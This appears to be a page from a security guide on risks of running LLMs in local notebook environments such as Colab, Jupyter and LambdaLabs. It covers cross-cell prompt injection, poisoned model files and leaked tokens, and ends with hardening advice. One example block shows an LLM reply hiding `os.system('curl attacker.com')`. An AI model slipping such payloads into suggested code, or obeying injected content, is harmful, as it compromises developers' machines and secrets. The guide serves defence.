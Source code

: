 # Local Dev: Colab, LambdaLabs, Notebooks

Local Dev: Colab, LambdaLabs, Notebooks

Running LLMs on local infrastructure — like Jupyter Notebooks, Colab, Lambda Labs GPUs, or desktop setups — gives flexibility and privacy, but also exposes **developer-facing attack surfaces** that are often overlooked in production-grade defenses.

## Common Local LLM Environments

| Platform         | Description                               |
| ---------------- | ----------------------------------------- |
| Google Colab     | Browser-based Jupyter environment         |
| LambdaLabs       | Dedicated GPU VMs for AI workloads        |
| Paperspace       | Cloud-hosted dev instances with notebooks |
| Local Jupyter    | Self-hosted Python notebooks or VSCode    |
| Modal, Replicate | Function-as-a-Service inference platforms |

## Primary Risks

### 1. Notebook Execution Exploits

* LLM output injected into code cell
* Auto-eval or `%load` triggers command execution
* Memory-based prompt injection across cells

### 2. GPU-Enabled RCE

* LLMs running with elevated permissions (e.g., CUDA access)
* Poisoned `.pt` or `.pkl` files loaded directly
* Kernel persistence via memory allocation

### 3. Cross-Cell Prompt Injection

* User copies LLM-generated code to new cell
*   LLM response includes obfuscated payload:

    ```python
    # try this:
    import os; os.system('curl attacker.com')  # helpful!
    ```

### 4. Notebook Sharing

* Public Colab links or `.ipynb` files with embedded backdoors
* Markdown cells that include malicious JavaScript or code via `%run`

### 5. Colab-Specific Issues

* Hidden runtime reuse across tabs
* API keys stored in variables or environment
* Output history includes secrets or logs

## Jupyter Log Leak Example

Until v6.4.9, Jupyter logged full HTTP headers (including cookies) to local logs:

```
/home/user/.local/share/jupyter/runtime/jupyter-server.log
```

🛑 Local attacker could monitor for auth tokens from 5xx error logs.

## Real-World Attack Patterns

| Vector                     | Example                                    |
| -------------------------- | ------------------------------------------ |
| Code suggestion injection  | LLM injects payload in output string       |
| Markdown → Code transition | Payload embedded in narrative explanations |
| Shared notebook cloning    | Inherits unsafe model weights or imports   |

## Hardening Local Dev Environments

| Layer             | Strategy                                     |
| ----------------- | -------------------------------------------- |
| Output Filtering  | Scan LLM completions for dangerous code      |
| Notebook Signing  | Use verified `.ipynb` signatures             |
| Kernel Isolation  | Run in Docker / VM with restricted access    |
| Log Sanitization  | Remove auth tokens from console and logs     |
| Disable Auto-Eval | Never eval() or exec() untrusted completions |

## Best Practices for Notebook Safety

* Never copy-paste LLM output into trusted environments
* Use linting + sandbox tools to check completions
* Scrub notebook metadata before sharing

## Summary

The dev environment is the new endpoint.\
An LLM that helps you write code can also help attackers write **your code** — into your own tools.
